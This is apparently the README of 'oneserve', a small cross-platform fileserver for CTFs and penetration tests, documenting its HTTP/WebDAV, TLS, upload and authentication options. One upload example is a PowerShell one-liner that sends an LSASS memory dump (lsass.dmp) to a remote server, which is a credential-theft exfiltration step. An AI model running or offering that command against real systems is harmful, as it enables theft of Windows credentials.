

## oneserve

**A small cross-platform fileserver for CTFs and penetration tests.**

Currently supports HTTP/WebDAV, file uploads, TLS, and basic authentication.

I am aware that the code is far from optimal and really betrays the fact I'm not a developer, but I would welcome any recommendations or requests!

## Installation

Download the appropriate binary from the releases page, or compile it yourself! It has only been tested on Ubuntu 20.04 and Windows 10/Server 2019 so far, but it should work on most OS/architectures supported by the Go compiler.

## Options
### -a, --address
Address on which the server will listen
### -p, --port
Port on which the server will listen
### -d, --directory
The directory to serve
### -T, --tls
Enables TLS
### -K, --key
The key to be used when TLS is enabled
### -C, --cert
The certificate to be used when TLS is enabled
### -c, --colour
Enables colour output
### -P, --prefix (WebDAV only)
Prefix to use for the WebDAV server
### -b, --basicauth (HTTP only)
Basic auth credentials, separated by a colon e.g. `admin:password`
### -u, --upload (HTTP only)
Enables uploading files, takes a path as an argument. For example, option `-u uploadfile` will accept POST requests on `http://IP:PORT/uploadfile` and will save the files in the working directory

Files can be uploaded from the command line like so:

**powershell:** `(New-Object system.net.webclient).UploadFile("http://192.168.1.10:8080/uploadfile","C:\Windows\Tasks\lsass.dmp")`

**bash:** `curl -vv http://192.168.1.10:8080/uploadfile -F 'file=@test.csv'`

## Examples

`oneserve http`

Starts an HTTP server on port 8000

`oneserve http -c -u uploadfile`

Starts an HTTP server on port 8000, with colour output and upload enabled on /uploadfile

`oneserve webdav -a 192.168.1.10 -p 80 -P share -c`

Starts a WebDAV server on 192.168.1.10:80/share with colour output enabled

`oneserve http -p 8443 -T -C server.crt -K server.key -b admin:test`

Starts an HTTPS server on port 8443 with basic authentication enabled
